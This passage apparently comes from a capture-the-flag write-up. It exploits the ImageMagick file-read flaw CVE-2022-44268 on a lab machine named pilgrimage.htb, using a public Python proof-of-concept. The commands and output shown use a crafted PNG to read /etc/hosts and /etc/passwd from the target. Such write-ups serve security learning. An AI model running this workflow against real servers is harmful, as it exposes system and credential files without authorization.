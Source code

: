 #### Script

[This repo](https://github.com/kljunowsky/CVE-2022-44268) has a nice Python version of the exploit. I run it once to create a malicious image, and then again pointing at the image on the site to get the results:

```

oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /etc/hosts --output pngout.png
oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cda5792e0d.png
127.0.0.1       localhost
127.0.1.1       pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

### Enumerate File System

#### Home Directories

I’ll start by checking the users on the box in the `/etc/passwd` file:

```

oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --image poc.png --file-to-read /etc/passwd --output pngout.png
oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdab09c70e.png
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

```
